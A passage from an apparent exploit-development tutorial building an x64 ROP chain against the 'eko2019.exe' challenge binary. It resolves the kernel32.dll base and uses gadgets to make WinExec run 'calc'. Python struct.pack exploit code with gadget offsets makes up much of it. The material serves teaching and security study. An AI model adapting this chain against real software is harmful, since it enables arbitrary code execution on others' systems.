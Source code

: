 Great! This sequence will load a writeable address into the RCX register. The task now, is to somehow overwrite what this address is pointing to.

We stumble across another interesting ROP gadget that can help us achieve this goal!

```nasm
mov qword [rcx], rax ; mov eax, 0x00000001 ; add rsp, 0x0000000000000080 ; pop rbx ; ret
```

This ROP gadget is from kernel32.dll. As you can recall, `WinExec()` is exported by kernel32.dll. This means we already have a valid address within kernel32.dll. Knowing this, we can find the distance between `WinExec()` and the base of kernel32.dll - which would allow us to dynamically resolve the base virtual address of kernel32.dll.

```python
kernel32_base = kernel32_winexec-0x5e390
```

`WinExec()` is 0x5e390 bytes into kernel32.dll (on this version of Windows 10). Subtracting this value, will give us the base adddress of kernel32.dll! Now that we have resolved the base, this will allow us to calculate the offset and virtual memory address of our gadget in kernel32.dll dynamically.

Looking back at our ROP gadget - this gives us the ability to take the value in RAX and move it into the value POINTED TO by RCX. RCX already contains the address we would like to overwrite - so this is a perfect match! All we need to do now, is load the string "calc" (null terminated) into RAX! Here is what this looks like all put together.

```python
# Creating a pointer to calc string
exploit_4 += struct.pack('<Q', base_address+0x1167)     # pop rax ; ret: eko2019.exe
exploit_4 += "calc\x00\x00\x00\x00"         # calc (with null terminator)
exploit_4 += struct.pack('<Q', kernel32_base+0x6130f)           # mov qword [rcx], rax ; mov eax, 0x00000001 ; add rsp, 0x0000000000000080 ; pop rbx ; ret: kernel32.dll

# Padding for add rsp, 0x0000000000000080 and pop rbx
exploit_4 += "\x41" * 0x88
```

One things to keep in mind is that the ROP gadget that creates the pointer to "calc" (null terminated) has a few extra instructions on the end that we needed to compensate for.

The second parameter is much more straight forward. In kernel32.dll, we found another gadget that allows us to pop our own value into RDX.

```python
# Placing second parameter into rdx
exploit_4 += struct.pack('<Q', kernel32_base+0x19daa)   # pop rdx ; add eax, 0x15FF0006 ; ret: kernel32.dll
exploit_4 += struct.pack('<Q', 0x01)              # SH_SHOWNORMAL
```

Perfect! At this point, all we need to do is place the call to `WinExec()` on the stack! This is done with the following snippet of code.

```python
# Calling kernel32!WinExec
exploit_4 += struct.pack('<Q', base_address+0x10a1)   # ret: eko2019.exe (ROP NOP)
exploit_4 += struct.pack('<Q', kernel32_winexec)          # Address of kernel32!WinExec
```

